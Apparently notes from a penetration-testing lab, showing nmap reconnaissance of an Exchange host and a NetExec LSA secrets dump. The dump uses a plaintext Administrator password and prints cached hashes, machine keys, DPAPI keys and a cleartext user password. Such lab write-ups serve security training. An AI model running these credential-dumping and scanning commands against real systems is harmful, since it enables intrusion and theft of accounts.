

Same here but seems like no success so we can move on?



New scan from inside linux wordpress machine!

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.10.1
./nmap -F 10.9.10.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:40 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.10.1
Host is up (0.00068s latency).
Not shown: 242 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.73 seconds
```

Even more details after I fixed ligolo:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# nmap -p -10000 10.9.10.13 -T4 -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 17:43 CEST
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 47.83% done; ETC: 17:44 (0:00:12 remaining)
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 54.35% done; ETC: 17:44 (0:00:12 remaining)
Nmap scan report for 10.9.10.13
Host is up (0.019s latency).
Not shown: 9954 closed tcp ports (reset)
PORT     STATE SERVICE              VERSION
25/tcp   open  smtp                 Microsoft Exchange smtpd
| ssl-cert: Subject: commonName=cymx.cyber.local
| Subject Alternative Name: DNS:cyber.local, DNS:CYBER
| Not valid before: 2024-03-26T09:11:12
|_Not valid after:  2044-03-21T09:11:12
| smtp-commands: cymx.cyber.local Hello [10.9.15.11], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, X-ANONYMOUSTLS, AUTH NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, XRDST
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
|_ssl-date: 2024-06-14T15:45:55+00:00; +1s from scanner time.
80/tcp   open  http                 Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-IIS/10.0
81/tcp   open  http                 Microsoft IIS httpd 10.0
|_http-title: 403 - Forbidden: Access is denied.
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc                Microsoft Windows RPC
443/tcp  open  ssl/http             Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://adfs.cyber.local/adfs/ls/?wa=wsignin1.0&wtrealm=https%3a%2f%2f10.9.10.13%2fowa%2f&wctx=rm%3d0%26id%3dpassive%26ru%3d%252fowa%252f&wct=2024-06-14T15%3a45%3a45Z
| ssl-cert: Subject: commonName=mail.cyber.local
| Subject Alternative Name: DNS:mail.cyber.local, DNS:autodiscover.cyber.local, DNS:cymx.cyber.local
| Not valid before: 2024-01-18T17:56:50
|_Not valid after:  2044-01-13T17:56:50
|_ssl-date: 2024-06-14T15:45:54+00:00; +1s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
444/tcp  open  ssl/http             Microsoft IIS httpd 10.0
|_ssl-date: 2024-06-14T15:45:55+00:00; +1s from scanner time.
|_http-title: Runtime Error
| ssl-cert: Subject: commonName=cymx.cyber.local
| Subject Alternative Name: DNS:cyber.local, DNS:CYBER
| Not valid before: 2024-03-26T09:11:12
|_Not valid after:  2044-03-21T09:11:12
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
465/tcp  open  smtp                 Microsoft Exchange smtpd
|_ssl-date: 2024-06-14T15:45:55+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=cymx.cyber.local
| Subject Alternative Name: DNS:cyber.local, DNS:CYBER
| Not valid before: 2024-03-26T09:11:12
|_Not valid after:  2044-03-21T09:11:12
| smtp-ntlm-info: 
|   Target_Name: CYBER
|   NetBIOS_Domain_Name: CYBER
|   NetBIOS_Computer_Name: CYMX
|   DNS_Domain_Name: cyber.local
|   DNS_Computer_Name: cymx.cyber.local
|   DNS_Tree_Name: cyber.local
|_  Product_Version: 10.0.14393
| smtp-commands: cymx.cyber.local Hello [10.9.15.11], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, X-ANONYMOUSTLS, AUTH GSSAPI NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, XEXCH50, XRDST, XSHADOWREQUEST
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
475/tcp  open  smtp
| fingerprint-strings: 
|   GenericLines: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:43:52 -0400
|     5.3.3 Unrecognized command 'unknown'
|     5.3.3 Unrecognized command 'unknown'
|   GetRequest: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:03 -0400
|     5.3.3 Unrecognized command 'GET'
|     5.3.3 Unrecognized command 'unknown'
|   Hello: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:08 -0400
|     250-cymx.cyber.local Hello [10.9.15.11]
|     250-SIZE 37748736
|     250-PIPELINING
|     250-DSN
|     250-ENHANCEDSTATUSCODES
|     250-X-ANONYMOUSTLS
|     250-X-EXPS GSSAPI NTLM
|     250-8BITMIME
|     250-BINARYMIME
|     CHUNKING
|   Help: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:16 -0400
|     214-This server supports the following commands:
|     HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
|   NULL: 
|_    220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:43:52 -0400
| smtp-commands: cymx.cyber.local Hello [10.9.15.11], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, X-ANONYMOUSTLS, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
476/tcp  open  smtp
| smtp-commands: cymx.cyber.local Hello [10.9.15.11], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, X-ANONYMOUSTLS, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
| fingerprint-strings: 
|   GenericLines: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:43:52 -0400
|     5.3.3 Unrecognized command 'unknown'
|     5.3.3 Unrecognized command 'unknown'
|   GetRequest: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:03 -0400
|     5.3.3 Unrecognized command 'GET'
|     5.3.3 Unrecognized command 'unknown'
|   Hello: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:08 -0400
|     250-cymx.cyber.local Hello [10.9.15.11]
|     250-SIZE 37748736
|     250-PIPELINING
|     250-DSN
|     250-ENHANCEDSTATUSCODES
|     250-X-ANONYMOUSTLS
|     250-X-EXPS GSSAPI NTLM
|     250-8BITMIME
|     250-BINARYMIME
|     CHUNKING
|   Help: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:16 -0400
|     214-This server supports the following commands:
|     HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
|   NULL: 
|_    220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:43:52 -0400
477/tcp  open  smtp
| fingerprint-strings: 
|   GenericLines: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:43:52 -0400
|     5.3.3 Unrecognized command 'unknown'
|     5.3.3 Unrecognized command 'unknown'
|   GetRequest: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:03 -0400
|     5.3.3 Unrecognized command 'GET'
|     5.3.3 Unrecognized command 'unknown'
|   Hello: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:08 -0400
|     250-cymx.cyber.local Hello [10.9.15.11]
|     250-SIZE 37748736
|     250-PIPELINING
|     250-DSN
|     250-ENHANCEDSTATUSCODES
|     250-X-ANONYMOUSTLS
|     250-X-EXPS GSSAPI NTLM
|     250-8BITMIME
|     250-BINARYMIME
|     CHUNKING
|   Help: 
|     220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:44:16 -0400
|     214-This server supports the following commands:
|     HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
|   NULL: 
|_    220 cymx.cyber.local MICROSOFT ESMTP MAIL SERVICE READY AT Fri, 14 Jun 2024 11:43:52 -0400
| smtp-commands: cymx.cyber.local Hello [10.9.15.11], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, X-ANONYMOUSTLS, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
587/tcp  open  smtp                 Microsoft Exchange smtpd
|_ssl-date: 2024-06-14T15:45:55+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=cymx.cyber.local
| Subject Alternative Name: DNS:cyber.local, DNS:CYBER
| Not valid before: 2024-03-26T09:11:12
|_Not valid after:  2044-03-21T09:11:12
| smtp-commands: cymx.cyber.local Hello [10.9.15.11], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, AUTH GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
593/tcp  open  ncacn_http           Microsoft Windows RPC over HTTP 1.0
717/tcp  open  smtp                 Microsoft Exchange smtpd
|_ssl-date: 2024-06-14T15:45:55+00:00; +1s from scanner time.
| smtp-commands: cymx.cyber.local Hello [10.9.15.11], SIZE 37748736, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, X-ANONYMOUSTLS, AUTH NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, XRDST
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
| ssl-cert: Subject: commonName=cymx.cyber.local
| Subject Alternative Name: DNS:cyber.local, DNS:CYBER
| Not valid before: 2024-03-26T09:11:12
|_Not valid after:  2044-03-21T09:11:12
808/tcp  open  ccproxy-http?
890/tcp  open  mc-nmf               .NET Message Framing
1801/tcp open  msmq?
2103/tcp open  msrpc                Microsoft Windows RPC
2105/tcp open  msrpc                Microsoft Windows RPC
2107/tcp open  msrpc                Microsoft Windows RPC
2525/tcp open  smtp                 Microsoft Exchange smtpd
|_ssl-date: 2024-06-14T15:45:55+00:00; +1s from scanner time.
|_smtp-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=cymx.cyber.local
| Subject Alternative Name: DNS:cyber.local, DNS:CYBER
| Not valid before: 2024-03-26T09:11:12
|_Not valid after:  2044-03-21T09:11:12
| smtp-commands: cymx.cyber.local Hello [10.9.15.11], SIZE, PIPELINING, DSN, ENHANCEDSTATUSCODES, STARTTLS, X-ANONYMOUSTLS, AUTH NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, XEXCH50, XRDST, XSHADOWREQUEST
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
3389/tcp open  ms-wbt-server        Microsoft Terminal Services
| ssl-cert: Subject: commonName=cymx.cyber.local
| Not valid before: 2024-06-13T14:53:40
|_Not valid after:  2024-12-13T14:53:40
|_ssl-date: 2024-06-14T15:45:54+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CYBER
|   NetBIOS_Domain_Name: CYBER
|   NetBIOS_Computer_Name: CYMX
|   DNS_Domain_Name: cyber.local
|   DNS_Computer_Name: cymx.cyber.local
|   DNS_Tree_Name: cyber.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-14T15:45:44+00:00
3800/tcp open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
3801/tcp open  mc-nmf               .NET Message Framing
3803/tcp open  mc-nmf               .NET Message Framing
3823/tcp open  mc-nmf               .NET Message Framing
3828/tcp open  mc-nmf               .NET Message Framing
3843/tcp open  mc-nmf               .NET Message Framing
3863/tcp open  mc-nmf               .NET Message Framing
3867/tcp open  mc-nmf               .NET Message Framing
3875/tcp open  msexchange-logcopier Microsoft Exchange 2010 log copier
5060/tcp open  sip?
5062/tcp open  na-localise?
5065/tcp open  ca-2?
5985/tcp open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6001/tcp open  ncacn_http           Microsoft Windows RPC over HTTP 1.0
6400/tcp open  msrpc                Microsoft Windows RPC
6401/tcp open  msrpc                Microsoft Windows RPC
6402/tcp open  msrpc                Microsoft Windows RPC
6406/tcp open  msrpc                Microsoft Windows RPC
6420/tcp open  msrpc                Microsoft Windows RPC
6426/tcp open  msrpc                Microsoft Windows RPC
6427/tcp open  msrpc                Microsoft Windows RPC
6428/tcp open  msrpc                Microsoft Windows RPC
9287/tcp open  cumulus?
9710/tcp open  mc-nmf               .NET Message Framing
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port475-TCP:V=7.94SVN%I=7%D=6/14%Time=666C653D%P=x86_64-pc-linux-gnu%r(
```

&nbsp;

# Post Exploitation

I will run a LSASS secrets dump:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec smb 10.9.10.13 -u 'Administrator' -p '9ze9wL0C!3' --lsa
SMB         10.9.10.13      445    CYMX             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYMX) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.13      445    CYMX             [+] cyber.local\Administrator:9ze9wL0C!3 (Pwn3d!)
SMB         10.9.10.13      445    CYMX             [+] Dumping LSA secrets
SMB         10.9.10.13      445    CYMX             CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#c145dcbd844f88264bdd35aafd17500f: (2024-06-19 20:42:49)
SMB         10.9.10.13      445    CYMX             CYBER.LOCAL/John.Braud:$DCC2$10240#John.Braud#f8ce1378770b5b245fb5d54ad04f1769: (2024-06-19 03:25:07)
SMB         10.9.10.13      445    CYMX             CYBER\CYMX$:aes256-cts-hmac-sha1-96:b6ff75731ad8fd11a7dbdf8a2778fae6a42cf667d9ce66cf20555e901c50e420
SMB         10.9.10.13      445    CYMX             CYBER\CYMX$:aes128-cts-hmac-sha1-96:4c0f6b2fa312f98c45e55541e4fb68e2
SMB         10.9.10.13      445    CYMX             CYBER\CYMX$:des-cbc-md5:62d5012f80f22a52
SMB         10.9.10.13      445    CYMX             CYBER\CYMX$:plain_password_hex:50005000580068004900590075004b007000420029004600650031005a004e004d0022003600410067002e00310061006f00630031002b003f003b00370025003a003c004800640064005e0035006b0031003e002d002e00280044006d00390036005f0050004b007a0048002700490047003400750039003000350038002700350037004d002e00520033002f00770023003b0076004f0047002d0062003e002f005f00510050004b00410079003b00610041002a0046002c0062005700460048006d00490047002e0044007a00660053005c004f007100620055002f004e004c0044002600200025002a006d002000
SMB         10.9.10.13      445    CYMX             CYBER\CYMX$:aad3b435b51404eeaad3b435b51404ee:9eb6cad62f06ba64c360aa2cba767382:::
SMB         10.9.10.13      445    CYMX             cyber.local\john.braud:0@39Xs!X5$
SMB         10.9.10.13      445    CYMX             dpapi_machinekey:0x6f02ef3fa5fd2a9d9dd2cb46fee5660d31b8a7fc
dpapi_userkey:0x4001fbe790491e98740fa765a6b50142a7910761
SMB         10.9.10.13      445    CYMX             L$ASP.NETAutoGenKeysV44.0.30319.0:1511ace9a8a240ea920d9a0fc11e1c13fcbaeb6eb930d0414ec27b71b8c38ef3ce66d292f06f8d55fbf483a613ad1d71f6ef12d7adb1a2d70a56d92ee5ed00ecac5d993c8c01d45260ee1e85c3fc06585e23469d29b5f27e12301940458d0303108d74baa5dfb1340cb78282f9551b6d5452c5a6a4117cdddafbbcdb02e6ff126d7097027b2885d3e4089ce52cfe6d667f057bff2054d4410b4e524ebe48d2b64debd60c88e9f84fcc5ceae5a4608e19d5429dd61b0824683fff1c8a2ccbd619f9a72da9b5bbee9252d7181f22202d829cb0885d1d458c980e8f09617ba9398387bdcbaa4203c832291016001064880cfaf154c048c3be1043743cf4efac804da69918d44698d54cac959333650cd4feae51b3082db6a4959b53692c61cf7428a78029415109968bc340f37d4c6d7a05119e2caf768011b64e3996355b3e98961e3cb2b83295f6222ccac3e4fc2cc25e7247ca69fb9b9ed9ecc861024b5df1f3454c390623446b216f3ee8a1800839dae5f1dd4317c4c4be4bd80e5ad359d909457d68e9dbc7251fdbfe65efe60b29defca98b7d4e1468741f4b63476a2bf7092c4cccf3002241e6542d78f4b5adcc6925ad112ca3d9371007f666f19eabf97257a56fe8e4faee5b68fa0c04c1509d2be671519d62b282358c304e19d6df104d88e9fd113cfbda66dd1a15268d246e666106194437a0785bdb70cbadd8ed31a55b1dce57632cfb7d6eb356d72d8f61629d1a9ddf740dd56c4479510c1ce9c9c747ec5091e067a762184c273f73d658a7729adb3ff39c12a6c1437b993b5425b6412549f34971a163012996bbb73e4b4a50e532ad7179fabb1f69291dc56210cb64ab6d3679d7e4569c6ead8b409c264a7796cac8d7adfd7ef60f89fb97313a83f57f9566478a0fd05e7d7db5422d586aeedd0c7e78049159f464c55e2b9633dbf2677f836e25c27ca62ca339f2bdc22aa6d1406580de9e75607ba1fc73793c31703fd25540bf2c3a7143c0ce4b355a74b85e35e0fbac1bf32b3ba309d82ee440a8f13a6436e2dc88b50609c80f412b65674f76a08fef272a60a4fd7439847314beedde7e63333b9c8abe559d1be6459bda4bcd049f9d8ceaea30efda5622e87c5abb01838df1456537427a5e5b2421fe880aec9ba1a4a7e45259fbe3a58c7012bcc86b7bb8f930794ecd09647c3d93c343f6890ee859ae34f926f140884b64c437f0879cb0a7dd3d922ed989233528525c421e89b01b3560fc370d84d653708734494f3c9e31c49cf4947173e2ffac81ff1921905c2c0b9849e2f8d09edba30c33dbf2dad10347204111c1f837f24acdc03954da333b7370493eaa1b86254241c64a48b3d30cdf8d18de2e5fc79214b025879e76fac268b3edb7eef87861449228d14477ed559155bcb0c42173ac233743de23886f6ab1ba56f660e76aa48290
SMB         10.9.10.13      445    CYMX             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         10.9.10.13      445    CYMX             [+] Dumped 11 LSA secrets to /root/.nxc/logs/CYMX_10.9.10.13_2024-06-19_224506.secrets and /root/.nxc/logs/CYMX_10.9.10.13_2024-06-19_224506.cached
```

Nice John credentials in cleartext..

And again I don't see more flags around?

&nbsp;

&nbsp;

&nbsp;